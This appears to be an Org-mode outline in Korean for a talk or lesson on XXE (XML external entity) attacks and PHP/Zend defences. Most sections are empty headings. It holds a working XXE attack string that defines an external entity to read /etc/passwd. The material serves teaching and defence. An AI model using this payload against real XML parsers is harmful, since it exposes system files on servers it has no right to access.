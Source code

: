 * 개념

* 샘플 해킹
** 간단한 POC
*** 테스트 문자열
#+BEGIN_SRC xml
<!DOCTYPE root
[<!ENTITY foo "xml external entity">]>
<test><testing>&foo;</testing></test>
#+END_SRC
*** 공격 문자열
#+BEGIN_SRC xml
<!DOCTYPE root
[<!ENTITY foo SYSTEM "file:///etc/passwd">]>
<test><testing>&foo;</testing></test>
#+END_SRC

** 일반적인 방어방법 in PHP

* 실전 해킹
** 관련 CVE
** 해당 Zend 프레임웍
** 방어코드 in PHP
이렇게 방어가 되어있다는 것을 보여준다.
** 정말 안뚫릴까? 해킹 시연
** 왜 뚫렸는가?
** 제대로 막으려면?

